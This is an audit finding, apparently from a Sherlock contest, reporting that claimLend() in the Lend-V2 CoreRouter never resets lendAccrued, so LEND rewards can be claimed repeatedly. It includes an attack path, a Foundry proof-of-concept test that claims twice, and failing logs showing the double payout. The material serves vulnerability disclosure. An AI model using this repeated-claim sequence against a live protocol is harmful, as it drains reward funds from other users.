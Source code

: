 Alert Mustard Manatee

High

# Multiple `ClaimLend()` Rewards Due to Missing Reset Mechanism

### Summary

The `claimLend()` function in [CoreRouter](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol) contract **allows users to claim LEND token rewards multiple times without proper state reset**. After claiming rewards, the `lendAccrued` mapping is not reset to zero, enabling attackers to repeatedly drain LEND tokens from the contract until the balance is exhausted.

### Root Cause

The vulnerability stems from the [`claimLend()`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L363-L408) function's failure to reset the `lendAccrued[user]` state variable to zero after successfully transferring rewards to users. The function calls `grantLendInternal()` which transfers tokens but does not update the accounting state.

**Vulnerable Code in CoreRouter.sol:**
```solidity
function claimLend(address[] memory holders, LToken[] memory lTokens, bool borrowers, bool suppliers) external {
    // ... distribution logic ...
    
    for (uint256 j = 0; j < holders.length;) {
        uint256 accrued = lendStorage.lendAccrued(holders[j]);
        if (accrued > 0) {
            grantLendInternal(holders[j], accrued); // Transfers tokens but doesn't reset accrued
        }
        unchecked {
            ++j;
        }
    }
}
```
**Missing Reset in LendStorage.sol:** The `lendAccrued` mapping retains its value after token transfer, allowing subsequent claims of the same amount.

### Internal Pre-conditions

1. Contract must have LEND token balance available for distribution
2. User must have previously accumulated rewards through **supply/borrow** activities
3. `lendAccrued[user]` must be greater than 0

### External Pre-conditions

**None Required**

### Attack Path

1. **Initial Setup:** Attacker supplies or borrows tokens to accumulate LEND rewards in `lendAccrued[attacker]`
2. **First Claim:** Attacker calls `claimLend([attacker], [lToken], false, true)` to claim their accrued rewards
3. **State Verification:** `lendAccrued[attacker]` remains unchanged (not reset to 0)
4. **Repeated Exploitation:** Attacker repeatedly calls `claimLend()` with the same parameters
5. **Fund Drainage:** Each call transfers the same amount of LEND tokens until contract balance is exhausted

### Impact

1. **Direct Financial Loss:** Complete drainage of LEND token reserves from the protocol
2. **Reward Theft:** Legitimate users lose their accumulated rewards to attackers
3. **Protocol Insolvency:** The rewards mechanism becomes non-functional when LEND balance reaches zero

### PoC

I use the test-case in `test/mocks/TestLendAccrual.t.sol` 
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import {Test, console2} from "forge-std/Test.sol";
import {Deploy} from "../../script/Deploy.s.sol";
import {HelperConfig} from "../../script/HelperConfig.s.sol";
import {CrossChainRouterMock} from "./CrossChainRouterMock.sol";
import {CoreRouter} from "../../src/LayerZero/CoreRouter.sol";
import {LendStorage} from "../../src/LayerZero/LendStorage.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/ERC20Mock.sol";
import {Lendtroller} from "../../src/Lendtroller.sol";
import {InterestRateModel} from "../../src/InterestRateModel.sol";
import {SimplePriceOracle} from "../../src/SimplePriceOracle.sol";
import {LTokenInterface} from "../../src/LTokenInterfaces.sol";
import {LToken} from "../../src/LToken.sol";
import "@layerzerolabs/lz-evm-oapp-v2/test/TestHelper.sol";
import "@layerzerolabs/lz-evm-protocol-v2/test/utils/LayerZeroTest.sol";

contract TestLendAccrual is LayerZeroTest {
    CoreRouter public coreRouter;
    LendStorage public lendStorage;
    Lendtroller public lendtroller;
    SimplePriceOracle public priceOracle;
    address[] public lTokens;
    address[] public supportedTokens;
    address public deployer;
    address public user1;
    address public user2;

    function setUp() public override {
        super.setUp();

        deployer = makeAddr("deployer");
        user1 = makeAddr("user1");
        user2 = makeAddr("user2");
        vm.deal(deployer, 1000 ether);
        vm.deal(user1, 1000 ether);
        vm.deal(user2, 1000 ether);

        // Deploy protocol
        Deploy deploy = new Deploy();
        (
            address priceOracleAddress,
            address lendtrollerAddress,
            ,
            address[] memory lTokenAddresses,
            ,
            address payable coreRouterAddress,
            address lendStorageAddress,
            ,
            address[] memory _supportedTokens
        ) = deploy.run(address(endpoint));

        // Store contract references
        coreRouter = CoreRouter(coreRouterAddress);
        lendStorage = LendStorage(lendStorageAddress);
        lendtroller = Lendtroller(lendtrollerAddress);
        priceOracle = SimplePriceOracle(priceOracleAddress);
        lTokens = lTokenAddresses;
        supportedTokens = _supportedTokens;

        // Set up initial prices
        for (uint256 i = 0; i < supportedTokens.length; i++) {
            priceOracle.setDirectPrice(supportedTokens[i], 1e18);
        }
    }

    function test_claimed_lend_not_matches_lend_accrued() public {
        // Supply tokens with two users
        uint256 supplyAmount = 1000e18;
        (, address lToken) = _supply(supplyAmount, user1);
        _supply(supplyAmount, user2);

        // Advance time
        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 1000);

        // Get initial LEND token balance
        address lendToken = lendtroller.getLendAddress();
        uint256 initialBalance = IERC20(lendToken).balanceOf(user1);

        // Record accrued LEND before claiming
        vm.prank(user1);
        address[] memory holders = new address[](1);
        holders[0] = user1;
        LToken[] memory lTokenArray = new LToken[](1);
        lTokenArray[0] = LToken(lToken);
        coreRouter.claimLend(holders, lTokenArray, false, true);

        vm.prank(user1);
        coreRouter.claimLend(holders, lTokenArray, false, true);

        uint256 lendAccrued = lendStorage.lendAccrued(user1);
        uint256 finalBalance = IERC20(lendToken).balanceOf(user1);

        // Verify Claimed amount Not match accrued amount
        assertEq(finalBalance - initialBalance, lendAccrued, "Claimed LEND Not match accrued amount");
    }

    // Helper Functions

    function _supply(uint256 amount, address user) internal returns (address token, address lToken) {
        token = supportedTokens[0];
        lToken = lendStorage.underlyingTolToken(token);

        vm.startPrank(user);
        ERC20Mock(token).mint(user, amount);
        IERC20(token).approve(address(coreRouter), amount);
        coreRouter.supply(amount, token);
        vm.stopPrank();
    }
```

**Logs:**
```solidity
Ran 1 test for test/mocks/TestLendAccrual.t.sol:TestLendAccrual
[FAIL: Claimed LEND Not match accrued amount: 100000000000000000 != 50000000000000000] test_claimed_lend_not_matches_lend_accrued() (gas: 1037647)
Suite result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 17.44ms (2.60ms CPU time)
```

### Mitigation

**Primary Fix:** Reset Accrued State.

Additional: 
   1. Consider implementing role-based access control for `claimLend()`
   2. Implement cooldown periods between claims
